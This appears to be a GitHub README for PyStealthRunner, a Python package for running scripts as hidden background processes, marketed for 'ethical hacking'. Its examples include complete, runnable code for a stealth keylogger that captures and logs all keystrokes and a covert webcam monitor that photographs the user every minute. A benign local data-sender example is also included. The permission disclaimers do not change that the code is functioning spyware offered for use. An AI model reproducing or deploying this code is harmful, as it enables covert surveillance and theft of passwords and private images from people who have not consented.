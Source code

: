 # PyStealthRunner

PyStealthRunner is a Python package for running scripts as background processes without a GUI, ideal for ethical hacking tasks like monitoring or data testing (use only with explicit permission).

## How It Works

PyStealthRunner internally manages Python scripts as detached background processes. When you use the `Runner` class to launch a script, it:

1. **Spawns a New Process:** Uses Python's `subprocess` module to start a new interpreter instance running your script, with special environment variables set to indicate background mode.
2. **Environment Control:** Sets `PYSTEALTH_BG=1` for the background process, so your script can detect if it is running in background mode and adjust its behavior accordingly.
3. **Process Tracking:** Maintains a PID file or in-memory registry to track running scripts, allowing you to check status or stop them later.
4. **Cross-Platform:** Handles process spawning and termination in a way that works on Windows, Linux, and macOS.
5. **Communication:** Optionally uses a local TCP port (default: 50506, configurable via `PYSTEALTH_PORT`) for simple status and control messaging between the main process and background scripts.

This design allows you to run, monitor, and stop scripts programmatically, without needing to manage OS-level process details yourself.

## Features
- Run Python scripts discreetly in the background.
- Cross-platform: Windows, Linux, macOS.
- Simple API to start, stop, and check script status.
- Use cases: keylogging, data testing, webcam monitoring (for authorized testing).

## Installation

Requires Python 3.6+. Install via pip:

```bash
pip install pystealthrunner
```

Or clone and install:

```bash
git clone https://github.com/SdxShadow/PyStealthRunner.git
cd pystealthrunner
pip install .
```

## Usage

Use the `Runner` class to manage background scripts:

```python
from pystealthrunner import Runner

runner = Runner()
pid = runner.run_script()  # Run current script
print(f"PID: {pid}")
print(runner.status())  # Check running scripts
runner.stop_script(pid)  # Stop script
```

### Methods
- `run_script(script_path=None)`: Runs a script in the background. If no path, uses the calling script. Returns PID.
- `stop_script(pid)`: Stops the script with the given PID.
- `status()`: Returns PIDs of running scripts.

### Environment Variables
- `PYSTEALTH_PORT`: Communication port (default: 50506).
- `PYSTEALTH_BG`: Set to "1" for background scripts (auto-handled).

## Examples

### 1. Keylogger 
Logs keystrokes to a file for authorized security testing.

```python
from pystealthrunner import Runner
import keyboard
import datetime
import os

if __name__ == "__main__":
    runner = Runner()
    if os.environ.get("PYSTEALTH_BG") != "1":
        pid = runner.run_script()
        print(pid)
        exit()

    log_file = os.path.expanduser("~/keylog.txt")
    while True:
        event = keyboard.read_event(suppress=True)
        if event.event_type == keyboard.KEY_DOWN:
            ts = datetime.datetime.now().strftime("%Y-%m-%d %H:%M:%S")
            with open(log_file, "a") as f:
                f.write(f"[{ts}] {event.name}\n")
```

Run it directly (no extra file needed):

```bash
python keylogger.py
```

Output in `~/keylog.txt`:

```
[2025-07-22 17:34:00] a
[2025-07-22 17:34:01] enter
```

**Note**: Requires `pip install keyboard`. Use only with explicit permission on authorized systems.

### 2. Data Sender
Sends data to a target URL in the background for testing server responses.

```python
from pystealthrunner import Runner
import requests
from time import sleep
import os

if __name__ == "__main__":
    runner = Runner()
    if os.environ.get("PYSTEALTH_BG") != "1":
        pid = runner.run_script()
        print(pid)
        exit()

    i = 10
    while i > 0:
        try:
            payload = {"data": f"test{i}", "source": "pystealthrunner"}
            requests.post("http://127.0.0.1:9090/submit", json=payload)
            with open(os.path.expanduser("~/data_sent.log"), "a") as f:
                f.write(f"Sent data test{i}\n")
        except:
            pass
        sleep(2)
        i -= 1
```

Run it directly:

```bash
python data_sender.py
```

Output in `~/data_sent.log`:

```
Sent data test10
Sent data test9
```

**Note**: Requires `pip install requests`. Use only on authorized test servers.

### 3. Continuous Webcam Monitor 
Captures webcam snapshots periodically for security testing.

```python
from pystealthrunner import Runner
import cv2
import datetime
import os

if __name__ == "__main__":
    runner = Runner()
    if os.environ.get("PYSTEALTH_BG") != "1":
        pid = runner.run_script()
        print(pid)
        exit()

    cap = cv2.VideoCapture(0)
    if not cap.isOpened():
        exit()
    save_dir = os.path.expanduser("~/webcam_captures")
    os.makedirs(save_dir, exist_ok=True)
    while True:
        ret, frame = cap.read()
        if ret:
            ts = datetime.datetime.now().strftime("%Y%m%d_%H%M%S")
            cv2.imwrite(f"{save_dir}/capture_{ts}.jpg", frame)
        sleep(60)  # Capture every minute
    cap.release()
```

Run it directly:

```bash
python webcam_monitor.py
```

Saves images to `~/webcam_captures/capture_YYYYMMDD_HHMMSS.jpg`.

**Note**: Requires `pip install opencv-python`. Use only with explicit permission.

## Use Cases
- Ethical hacking: Keylogging, data testing, webcam monitoring (with permission).
- Automation: Run scheduled tasks or silent monitoring.

## Notes
- Scripts must be valid `.py` files.
- Ensure legal authorization for hacking-related scripts.

## Troubleshooting
- **Script Fails**: Verify `.py` file and dependencies.
- **Port Conflicts**: Set `PYSTEALTH_PORT` to an open port.
- **Permissions**: Ensure write access for PID file and logs.

## Contributing
Submit issues or PRs at [GitHub](https://github.com/SdxShadow/PyStealthRunner).

## License
MIT License.